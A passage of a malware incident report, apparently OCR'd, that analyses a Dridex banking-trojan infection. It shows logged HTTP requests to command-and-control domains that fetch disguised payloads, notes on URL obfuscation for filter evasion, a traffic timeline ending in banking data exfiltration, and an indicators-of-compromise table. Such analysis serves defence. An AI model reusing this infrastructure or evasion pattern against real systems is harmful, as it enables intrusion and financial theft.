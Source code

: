 **Domain: klychenogg.com (95.181.198.232)**
```
GET /QIC/tewokl.php?l=spet10.spr HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1)
Connection: Close
```

**Domain: cochrimato.com (176.32.33.108)**
```
GET /images/[OBFUSCATED_PATH]/ojw.avi HTTP/1.1
GET /images/[OBFUSCATED_PATH]/6.avi HTTP/1.1
GET /images/[OBFUSCATED_PATH]/timxEQW.avi HTTP/1.1
```

**Path Obfuscation Analysis:**
* URLs contain base64-like encoding and URL encoding (%2B, %2F)
* Directory structure designed to evade URL filtering
* Multiple levels of subdirectories for evasion

### 7.2 Traffic Volume Analysis

| Time Period | Primary Activity | Duration |
|-------------|------------------|----------|
| 17:30:12-17:30:16 | Initial payload download | 4 seconds |
| 17:30:34-17:38:39 | C2 establishment and reconnaissance | 8 minutes 5 seconds |
| 17:38:39-17:38:57 | Secondary payload deployment | 18 seconds |
| 17:38:57-18:12:16 | Banking data exfiltration | 33 minutes 19 seconds |

---

## 8. Indicators of Compromise (IOCs)

### 8.1 Network Indicators

| Indicator | Type | Description | Threat Level |
|-----------|------|-------------|--------------|
| `10.11.27.101` | IP Address | Infected accounting workstation | Internal |
| `95.181.198.232` | IP Address | klychenogg.com C2 server (Russia) | Critical |
| `176.32.33.108` | IP Address | cochrimato.com C2 server (Russia) | Critical |
| `83.166.247.211` | IP Address | mautergase.com C2 server (Russia) | High |
| `185.244.150.230` | IP Address | Dridex C2 server (Netherlands) | Critical |
| `208.67.222.222` | IP Address | OpenDNS resolver (DNS bypass) | Medium |
| `klychenogg.com` | Domain | Primary C2 domain | Critical |
| `cochrimato.com` | Domain | Secondary C2 domain | Critical |
| `mautergase.com` | Domain | Persistent C2 domain | High |
